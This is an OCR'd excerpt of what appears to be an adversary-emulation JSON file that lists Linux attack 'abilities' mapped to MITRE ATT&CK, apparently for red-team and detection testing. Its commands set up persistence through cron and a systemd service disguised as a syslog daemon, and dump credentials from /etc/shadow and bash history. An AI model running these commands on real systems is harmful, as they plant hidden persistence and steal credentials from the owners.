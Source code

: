 ```json
      },
      "privilege": "Unknown",
      "tactic": "privilege-escalation",
      "technique": "Abuse Elevation Control Mechanism: Setuid and Setgid",
      "attack_id": "T1548.001"
    },
    {
      "ability_id": "c3f875d8-ab9b-46ef-acf6-7926f7b93d78",
      "platform": "linux",
      "commands": {
        "sh": "sleep 40\n"
      },
      "privilege": "Unknown",
      "tactic": "privilege-escalation",
      "technique": "Abuse Elevation Control Mechanism: Setuid and Setgid",
      "attack_id": "T1548.001"
    },
    {
      "ability_id": "f6d72009-d093-461a-986c-e1ab9b04db51",
      "platform": "linux",
      "commands": {
        "sh": "dir=$(dirname #{location});\ncroncontents=$(crontab -l 2>/dev/null);\nprintf \"$croncontents\\n1 * * * * cd $dir && #{exe_name}\\n@reboot cd $dir && #{exe_name}\\n\" | crontab -\n"
      },
      "privilege": "Unknown",
      "tactic": "persistence",
      "technique": "Scheduled Task/Job: Cron",
      "attack_id": "T1053.003"
    },
    {
      "ability_id": "82d61362-0f60-45d9-a3e1-26ec20cb3387",
      "platform": "linux",
      "commands": {
        "sh": "printf \"[Unit]\\nDescription=Syslog daemon\\n\\n[Service]\\nWorkingDirectory=$(dirname #{location})\\nExecStartPre=/bin/rm -f /tmp/.applocktx\\nExecStart=#{location}\\nRestart=always\\n\\n[Install]\\nWantedBy=multi-user.target\" > /etc/systemd/system/syslogd.service;\nchmod 0644 /etc/systemd/system/syslogd.service;\nsystemctl enable syslogd.service;\nsystemctl daemon-reload;\n"
      },
      "privilege": "Unknown",
      "tactic": "persistence",
      "technique": "Create or Modify System Process: Systemd Service",
      "attack_id": "T1543.002"
    },
    {
      "ability_id": "8e965415-40be-40f8-8786-da4f67748fef",
      "platform": "linux",
      "commands": {
        "proc": "cat /etc/shadow"
      },
      "privilege": "Unknown",
      "tactic": "credential-access",
      "technique": "OS Credential Dumping: /etc/passwd and /etc/shadow",
      "attack_id": "T1003.008"
    },
    {
      "ability_id": "40934e60-6b0d-4d3b-a8f5-ad111c6a0abc",
      "platform": "linux",
      "commands": {
        "proc": "cat /home/#{initial.user.name}/.bash_history"
      },
      "privilege": "Unknown",
      "tactic": "credential-access",
      "technique": "Unsecured Credentials: Bash History",
```